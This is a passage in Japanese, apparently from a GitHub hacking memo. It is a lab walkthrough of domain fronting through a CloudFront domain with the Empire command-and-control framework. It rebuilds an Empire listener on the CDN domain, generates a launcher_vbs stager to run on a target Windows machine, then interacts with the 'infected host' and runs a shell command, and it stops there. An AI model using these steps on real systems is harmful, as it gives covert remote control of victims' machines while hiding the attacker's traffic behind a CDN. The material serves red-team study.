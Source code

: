 実際にアクセスすると、さっきと同じようにIISのホームのような画面になっていますね。  

| ![CDNのドメイン名](https://raw.githubusercontent.com/proshiba/tech-memo/main/hacking/images/cloudfronting/cloudfronting-empire-01.png) |
|:-:|

このテスト環境では、dn2kjz1y9hbu5.cloudfront.netがドメイン名ですね。  
ここまできたら、環境はほぼ完成です。今度は、このドメイン名を使って、empireでlistenerを作り直してください。  

その後、stagerの作成をしましょう。  
作成するstagerはなんでもいいですが、わかりやすいのでlauncher/vbsで作成して、実行をしてみます。  

```bash
usestager windows/launcher_vbs https
generate
# /tmp/launcher.vbsというファイルが作成されるため、これを対象のwindowsマシンで実行
```

さて、これを実行すると実際にempireの接続ができます。  
まぁ、calcの起動ぐらい試すのであれば、以下のコマンドで行えます。  
```bash
# TX72A3L5は、接続時にランダムで割り当てられる感染端末のIDです  
interact TX72A3L5
shell calc
```

shellで以下のように表示されていたら、接続完了です。  
